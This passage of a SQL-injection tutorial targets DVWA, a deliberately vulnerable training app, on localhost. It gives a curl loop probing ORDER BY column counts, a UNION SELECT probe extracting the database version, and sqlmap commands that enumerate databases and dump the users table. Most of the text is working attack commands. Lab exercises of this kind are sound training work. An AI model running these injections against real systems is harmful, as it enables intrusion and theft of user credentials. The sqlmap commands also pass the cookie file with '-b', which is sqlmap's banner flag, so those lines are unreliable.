If the injected page shows **more rows** or different content, manual SQLi works — you can proceed to automated enumeration. If identical, try the ORDER BY and UNION steps below.

---

# 5. Detect number of columns (ORDER BY loop)
Run this to find when `ORDER BY N` causes an error — the highest `N` without an error is the column count.

```bash
for i in {1..12}; do
  echo -n "ORDER BY $i: "
  curl -s -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1%20ORDER%20BY%20$i--%20&Submit=Submit" \
    | grep -i "error" >/dev/null && echo "ERROR" || echo "no error"
done
```

If, for example, `ORDER BY 5` is `ERROR` and `ORDER BY 4` is `no error`, you have **4 columns**.

---

# 6. Manual UNION probe (example)
If you detected 2 columns, test this to display `version()` from MySQL:

```bash
# (change NULLs to match your number of columns)
curl -s -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1%20UNION%20SELECT%20NULL,version()--%20&Submit=Submit" -o /tmp/union.html
head -n 200 /tmp/union.html
```

If `version()` appears, UNION injection worked.

---

# 7. Automated enumeration with sqlmap (recommended)
Use sqlmap to enumerate DBs, tables, and dump the users table. There are two main modes:
- **Using `cookies.txt`** (terminal session cookie)
- **Using explicit browser cookie header** (if `cookies.txt` is unreliable)

## 7.1 Basic sqlmap (use `cookies.txt`):
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -b cookies.txt -p id --batch --level=3 --risk=2 --dbs | tee sqlmap-dbs.txt
```

If it finds DBs (look for `dvwa`), then list tables and dump users:
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -b cookies.txt -p id --batch -D dvwa --tables | tee sqlmap-tables.txt

sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -b cookies.txt -p id --batch -D dvwa -T users --dump | tee sqlmap-users.txt
```
